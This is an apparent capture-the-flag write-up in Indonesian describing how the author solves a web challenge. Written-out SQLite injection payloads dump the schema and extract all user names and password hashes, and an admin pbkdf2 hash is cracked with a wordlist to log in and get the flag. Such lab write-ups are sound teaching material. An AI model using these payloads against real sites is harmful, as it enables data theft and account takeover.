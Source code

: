 ![image](https://github.com/aldisakti2/Writeup/assets/106227122/2ee11b2c-c2ea-47a9-ab46-a23250d52f28)![image](https://github.com/aldisakti2/Writeup/assets/106227122/ad7498a1-3944-46d4-b45b-38cd31f730b5)

**Pada chall kali ini kita diberikan wordlist (pasti brute-force) namun tidak boleh brute-force di login, berarti ada hal lain :)**

**Index**

![image](https://github.com/aldisakti2/Writeup/assets/106227122/feee17a4-b27a-487e-ba81-82d688509ff4)

**Ada tiga menu yaitu _Products, Create dan Admin_**

![image](https://github.com/aldisakti2/Writeup/assets/106227122/2234c93f-bfd0-4392-9a20-bf24b0750813)

**Yang menarik disini kita diberikan sebuah cookie**

![image](https://github.com/aldisakti2/Writeup/assets/106227122/88b8e4dd-f0ee-4510-b792-fbac2f495d7f)

**Dengan bantuan flask-unsign kita tahu bahwa web ini menggunakan sqllite**

![image](https://github.com/aldisakti2/Writeup/assets/106227122/56b39df8-af90-4a10-940e-51a3aebd2ca6)

**Kita lihat di menu _create_, disini kita bisa menginputkan data**

![image](https://github.com/aldisakti2/Writeup/assets/106227122/39362e37-1bdd-4505-afa3-50ee148525be)

**Aku akan mencoba SQLi versi SQLite : '||(sqlite_version())||' dan Gotcha!**

![image](https://github.com/aldisakti2/Writeup/assets/106227122/0a43bca8-f248-452d-98ec-afdea0fb0c9d)

**Cek Query dengan : ' || (SELECT sql FROM sqlite_master WHERE type='table') || '**
![image](https://github.com/aldisakti2/Writeup/assets/106227122/de26db9f-c337-4a5c-9576-912d45cb186b)

**Sekarang kita tahu ada tabel user yang berisi id,name,password**

![image](https://github.com/aldisakti2/Writeup/assets/106227122/de50ea1b-45f0-44ea-a81c-285e9401aa6b)

**Sekarang ke bagian paling menarik yaitu mengambil seluruh data user : '||(SELECT GROUP_CONCAT(id || ',' || name || ',' || password, '; ') FROM users)||'**

![image](https://github.com/aldisakti2/Writeup/assets/106227122/7e93442a-f6eb-4992-87a1-0534d3116d9a)

**Ternyata di enkripsi menggunakan pbkdf2-sha256 website_admin_account,pbkdf2:sha256:600000$MSok34zBufo9d1tc$b2adfafaeed459f903401ec1656f9da36f4b4c08a50427ec7841570513bf8e57**

**Kita bisa men-decrypt dengan (https://github.com/AnataarXVI/Werkzeug-Cracker) dan wordlist yang diberikan**


![image](https://github.com/aldisakti2/Writeup/assets/106227122/823d38af-c240-4de3-806d-2fc8cd765906)

**Aku membuat script sendiri agar lebih mudah bagiku melakukan debug**

![image](https://github.com/aldisakti2/Writeup/assets/106227122/390f2ac7-1ec2-4490-b8f2-e89f126d76b9)

**User     : website_admin_account**
**Passwprd : ntadmin1234**

**Login Admin dan kita dapat flagnya**

![image](https://github.com/aldisakti2/Writeup/assets/106227122/1cceedf6-578a-4df3-a0d9-7437b63e9207)

**Flag : flag{87257f24fd71ea9ed8aa62837e768ec0}**
